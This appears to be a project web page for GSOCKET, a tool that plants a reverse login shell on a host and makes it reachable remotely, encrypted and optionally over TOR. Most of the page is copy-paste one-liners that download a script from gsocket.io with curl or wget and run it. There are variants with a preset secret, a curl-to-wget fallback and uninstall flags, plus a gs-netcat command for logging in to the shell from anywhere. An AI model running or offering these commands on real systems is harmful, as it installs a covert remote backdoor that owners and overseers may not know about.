 ```yaml
---
layout: default
---
```


Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like. 

> _This must be the quickest way to access a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```

```shell
bash -c "$(wget -qO- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Access the remote host from anywhere in the world:
```shell
gs-netcat -s ExampleSecretChangeMe -i
```

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

Deploy with a predefined secret:
```shell
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
```

Deploy with *curl* and fallback to *wget*:
```shell
command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget -qO- gsocket.io/x)"
```

Deploy with a predefined secret. Try *curl* and fallback to *wget*:
```shell
X=ExampleSecretChangeMe && (command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget -qO- gsocket.io/x)")
```
  

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>



